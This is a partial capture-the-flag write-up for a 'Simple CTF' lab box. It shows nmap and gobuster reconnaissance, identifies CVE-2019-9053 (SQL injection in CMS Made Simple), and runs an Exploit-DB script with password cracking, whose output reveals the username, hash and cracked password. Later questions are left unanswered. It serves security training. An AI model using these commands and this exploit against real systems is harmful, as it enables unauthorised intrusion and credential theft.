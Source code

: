 # Simple CTF Writeup

How many services are running under port 1000?
```
nmap -sC -sV -A <target ip>
```
> 2

What is running on the higher port?
> ssh

What's the CVE you're using against the application?
```
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 250
```
We see a `/simple` which leads us to a CMS Made Simple vulnerability. Search this up online and we see [this](https://www.exploit-db.com/exploits/46635).
> CVE-2019-9053

To what kind of vulnerability is the application vulnerable?
> SQLi

What's the password?

Use the exploit from Exploit-DB with a few minor changes. I had to delete the `termcolor` module and fix a few print statements.
```
python2 exploit.py -u http://<target-ip>/simple/ --crack -w /usr/share/wordlists/rockyou.txt
```
```
Output:
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
> secret

Where can you login with the details obtained?


What's the user flag?


Is there any other user in the home directory? What's its name?


What can you leverage to spawn a privileged shell?


What's the root flag?

